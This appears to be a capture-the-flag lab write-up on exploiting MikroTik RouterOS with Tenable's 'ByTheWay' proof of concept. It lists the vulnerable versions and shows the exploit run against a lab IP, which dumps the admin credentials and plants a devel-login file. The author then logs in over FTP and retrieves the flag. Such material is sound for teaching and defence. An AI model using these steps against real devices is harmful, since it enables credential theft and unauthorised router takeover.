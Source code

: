 +++
title = "Exploitation"
date = 2021-10-18T20:39:54-06:00
weight = 10
+++


### Exploitation

The following versions of Router OS are vulnerable to "ByTheWay" exploit:
```
Longterm: 6.30.1 - 6.40.7
Stable: 6.29 - 6.42
Beta: 6.29rc1 - 6.43rc3
```

The exploit can be found here, from Tenable team: <a href="https://github.com/tenable/routeros/tree/master/poc/bytheway">https://github.com/tenable/routeros/tree/master/poc/bytheway</a>

The attacker needs to clone the repo, and build the target. This requires downloading boost libs in Kali and some basic compilation. After that, the exploit should work out of the box, at least it will report the dumped creds.

```
$ ./btw -i 172.21.0.4

   ╔╗ ┬ ┬  ┌┬┐┬ ┬┌─┐  ╦ ╦┌─┐┬ ┬
   ╠╩╗└┬┘   │ ├─┤├┤   ║║║├─┤└┬┘
   ╚═╝ ┴    ┴ ┴ ┴└─┘  ╚╩╝┴ ┴ ┴

[+] Attempting to connect to 172.21.0.4:8291
[+] Extracting user.dat...
[+] Searching for administrator credentials
[+] Using credentials - admin:sHby8Gzi292ZsnS
[+] Creating /pckg/option on 172.21.0.4:8291
[+] Creating /flash/nova/etc/devel-login on 172.21.0.4:8291
[+] There's a light on
```

Telnet is blocked via firewall on the device though. Attackers will have the option to either use FTP. Probably the easier way to go. They can also download WinBox client from Mikrotik website. THis will give them access to the full portal. They can navigate to files and download flag.txt. Hopefully they don't screw anything up.


```
$ ftp 172.21.0.4
Connected to 172.21.0.4.
220 MikroTik FTP server (MikroTik 6.39.2) ready
Name (172.21.0.4:msx): admin
331 Password required for admin
Password:
230 User admin logged in
Remote system type is UNIX.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (172,21,0,4,191,152).
150 Opening data connection
-rw-rw----   1 root     root           59 Oct 18 12:47 flag.txt
-rw-rw----   1 root     root        20070 Oct 17 20:40 test2.backup
-rw-rw----   1 root     root        19762 Oct 17 20:28 test.backup
drwxrwx---   1 root     root         1024 Dec 31 18:00 flash
226 Transfer complete
ftp> get flag.txt
local: flag.txt remote: flag.txt
227 Entering Passive Mode (172,21,0,4,208,214).
150 Opening ASCII mode data connection for /flag.txt (59 bytes)
226 ASCII transfer complete
59 bytes received in 0.00 secs (61.0999 kB/s)
ftp> exit
221 Closing

$ cat flag.txt
I'm a flag...

------WebKitFormBoundarytbo3r6jM7GHBKTEs--
```
